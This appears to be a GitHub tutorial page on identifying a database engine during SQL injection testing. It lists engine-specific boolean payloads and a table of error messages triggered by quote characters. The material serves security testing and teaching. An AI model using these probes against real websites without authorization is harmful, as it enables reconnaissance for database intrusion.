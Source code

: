 If we does not know any thing about the target database and tables, to know the database name and the version will be our first priority.

- ### [SQL Payloads](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/DBMS_Identification.md#sql-payloads-1)
- ### [Error Messages](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/DBMS_Identification.md#error-messages-1)

---

### SQL Payloads
It is a database fingerprinting technique in which we apply different SQL payloads to get any valid responses, so that we can confirm which SQL payload is working and then the database type can be easily known through the tables

- **MySQL-Specific Payloads**
If these payload can trigger ant valid responses or errors the DBMS is likely My-SQL based.
  
      conv('a',16,2)=conv('a',16,2)
      connection_id()=connection_id()
      crc32('MySQL')=crc32('MySQL')
  
- **MSSQL Specific Payloads**
  
    	BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)
      @@CONNECTIONS>0
      @@CONNECTIONS=@@CONNECTIONS
      @@CPU_BUSY=@@CPU_BUSY
      USER_ID(1)=USER_ID(1)
  
- **Oracle Specific Payloads**
      ROWNUM=ROWNUM
      RAWTOHEX('AB')=RAWTOHEX('AB')
      LNNVL(0=123)
  
- **POSTGRESQL Specific Payloads**

      5::int=5
      5::integer=5
      pg_client_encoding()=pg_client_encoding()
      get_current_ts_config()=get_current_ts_config()
      quote_literal(42.5)=quote_literal(42.5)
      current_database()=current_database()

- **SQLite Specific Payloads**

      sqlite_version()=sqlite_version()
      last_insert_rowid()>1
      last_insert_rowid()=last_insert_rowid()

- **MSACCESS Specific Payloads**

      val(cvar(1))=1
      IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0

### Error Messages
If we can trigger any SQL error message, it also tells about the database type.

| **DBMS** | **Example Error Message** | **Example Payload** |
| --- | --- | --- |
| MySQL | `You have an error in your SQL syntax; ... near '' at line 1` | `'` |
| PostgreSQL | `ERROR: unterminated quoted string at or near "'"` | `'` |
| PostgreSQL | `ERROR: syntax error at or near "1"` | `1'` |
| Microsoft SQL Server | `Unclosed quotation mark after the character string ''.` | `'` |
| Microsoft SQL Server | `Incorrect syntax near ''.` | `'` |
| Microsoft SQL Server | `The conversion of the varchar value to data type int resulted in an out-of-range value.` | `1'` |
| Oracle | `ORA-00933: SQL command not properly ended` | `'` |
| Oracle | `ORA-01756: quoted string not properly terminated` | `'` |
| Oracle | `ORA-00923: FROM keyword not found where expected` | `1'` |






































    
